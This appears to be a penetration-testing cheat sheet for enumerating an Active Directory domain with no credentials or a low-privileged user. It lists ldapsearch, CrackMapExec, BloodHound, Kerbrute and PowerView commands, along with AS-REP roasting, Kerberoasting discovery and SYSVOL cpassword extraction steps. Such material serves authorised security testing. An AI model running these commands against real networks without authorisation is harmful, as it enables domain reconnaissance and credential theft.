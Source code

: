 # **Active Directory Pentesting: Enumeration (No Credentials / Low-Privileged User)**

## **Scenario:**
This document outlines **enumeration techniques for Active Directory (AD) penetration testing** when operating with **no credentials or a low-privileged user**. The goal is to **gather user lists, groups, shares, and domain structure** before proceeding to exploitation.

### **References for Further Study:**
- **MITRE ATT&CK – Credential Access & Discovery Techniques (T1087, T1069, T1207, T1552)**
- **BloodHound Red Teaming Guide**
- **Active Directory Enumeration Tools (LDAP, Kerberos, SMB, GPO Analysis)**
- **PowerView & CrackMapExec for AD Discovery**

---

# **🛠 Step 2: AD Enumeration (No Credentials / Low-Privileged User)**
**Objective:** Gather **user lists, groups, shares, and domain structure**.

## **2.1 User & Group Enumeration**

### **Enumerate Users via LDAP Queries (Anonymous Binds, ldapsearch, BloodHound)**
- **Why?** Many AD environments allow **anonymous or low-privileged LDAP queries**.
- **Techniques:**
  - **Enumerate users via anonymous LDAP binds:**
    - `ldapsearch -x -H ldap://<DC_IP> -s sub -b "DC=company,DC=com"`  
  - **Extract usernames from AD using ldapdomaindump:**
    - `ldapdomaindump -u '' -p '' <DC_IP>`
  - **Run BloodHound to visualize AD relationships:**
    - `bloodhound-python -d <domain> -u <user> -p <pass> -gc <DC_IP> -c All`
- **Alternative Methods:**
  - **Using Windows `dsquery` for user enumeration:**
    - `dsquery user -limit 0`
  - **PowerView enumeration:**
    - `Get-DomainUser -Domain company.com`
  - **Enumerate via CrackMapExec:**
    - `cme ldap <DC_IP> -u '' -p '' --users`

### **Extract Users via Kerberos Pre-Auth Disabled (AS-REP Roasting)**
- **Why?** Users with **Kerberos pre-authentication disabled** allow retrieval of their encrypted hashes.
- **Techniques:**
  - **Use Kerbrute to identify AS-REP Roastable accounts:**
    - `kerbrute userenum -d <domain> --dc <DC_IP> usernames.txt`
  - **Request Kerberos tickets for vulnerable accounts:**
    - `GetNPUsers.py <domain>/ -usersfile users.txt -format hashcat`
- **Alternative Methods:**
  - **Check for accounts with `Do not require Kerberos pre-authentication` flag using BloodHound.**
  - **Enumerate vulnerable users with CrackMapExec:**
    - `cme kerberos <DC_IP> -u users.txt -p '' --asreproast`

### **Enumerate Groups and Group Memberships (net group /domain, gpresult)**
- **Why?** Identifying **user groups** helps in **targeting privileged accounts**.
- **Techniques:**
  - **Enumerate domain groups via net commands:**
    - `net group /domain`
  - **Extract group memberships via LDAP:**
    - `ldapsearch -x -h <DC_IP> -b "CN=Users,DC=company,DC=com" "(objectClass=group)"`
  - **Use PowerView to retrieve group details:**
    - `Get-NetGroup -Domain company.com`
- **Alternative Methods:**
  - **Use BloodHound’s `Group Membership` queries to analyze privilege escalation paths.**
  - **Enumerate groups using CrackMapExec:**
    - `cme ldap <DC_IP> -u '' -p '' --groups`

### **Identify High-Privilege Accounts (DA, Server Admins, SQL Admins)**
- **Why?** Identifying **high-privileged users** helps in targeting **lateral movement**.
- **Techniques:**
  - **Identify domain admins via LDAP:**
    - `ldapsearch -x -h <DC_IP> -b "CN=Users,DC=company,DC=com" "(memberOf=CN=Domain Admins, CN=Users,DC=company,DC=com)"`
  - **Find SQL Admins via PowerView:**
    - `Get-NetGroupMember -GroupName "SQL Admins"`
- **Alternative Methods:**
  - **BloodHound query:** `MATCH (u:User)-[:MemberOf]->(g:Group) WHERE g.name CONTAINS "Admin" RETURN u`
  - **Enumerate privileged accounts via CrackMapExec:**
    - `cme ldap <DC_IP> -u '' -p '' --groups | grep 'Admin'`

---

## **2.2 SMB & File Share Enumeration**

### **List Available SMB Shares (smbclient, enum4linux, CrackMapExec)**
- **Why?** SMB shares often contain **password files, scripts, and sensitive data**.
- **Techniques:**
  - **List shares via SMB client:**
    - `smbclient -L //<DC_IP> -N`
  - **Automated enumeration via enum4linux:**
    - `enum4linux -a <DC_IP>`
  - **Use CrackMapExec to find readable shares:**
    - `cme smb <DC_IP> -u '' -p '' --shares`

### **Access SYSVOL & NETLOGON for Credentials & Scripts**
- **Why?** SYSVOL often contains **plaintext credentials in GPO files**.
- **Techniques:**
  - **Manually browse SYSVOL via SMB:**
    - `smbclient //DC_IP/SYSVOL -U "guest"`
  - **Extract `Groups.xml` files for cpassword hashes:**
    - `findstr /S cpassword \SYSVOL\*.xml`

---

## **2.3 Kerberos Enumeration**

### **SPN Discovery (Kerberoasting Candidates) (GetUserSPNs, BloodHound)**
- **Why?** Service Principal Names (SPNs) are linked to **service accounts with Kerberos authentication**.
- **Techniques:**
  - **Find SPNs for Kerberoasting:**
    - `GetUserSPNs.py <domain>/ -usersfile users.txt`
  - **Use BloodHound for SPN discovery:**
    - `bloodhound-python -c All -d <domain>`

### **Identify Users with Unconstrained Delegation Enabled**
- **Why?** These users can **impersonate other users**, leading to privilege escalation.
- **Techniques:**
  - **Check for Unconstrained Delegation via PowerView:**
    - `Get-DomainComputer -Unconstrained`
  - **Use LDAP Queries to extract delegation accounts:**
    - `ldapsearch -x -h <DC_IP> -b "CN=Users,DC=company,DC=com" "(userAccountControl:1.2.840.113556.1.4.803:=524288)"`

---

## **2.4 Privilege Discovery via GPOs**

### **Extract Group Policy Preferences (GPP) Passwords**
- **Why?** GPP stores **plaintext passwords** in SYSVOL.
- **Techniques:**
  - **Manually browse SYSVOL:**
    - `smbclient //DC_IP/SYSVOL -U "guest"`
  - **Search for GPP password fields:**
    - `findstr /S cpassword \SYSVOL\*.xml`

### **Identify Mapped Drives & Startup Scripts with Potential Credentials**
- **Why?** Mapped drives & startup scripts may contain **passwords or useful network paths**.
- **Techniques:**
  - `Get-NetGPOGroup` (Enumerate GPO groups)
  - `gpresult /Scope Computer /v` (Extract applied GPO settings)

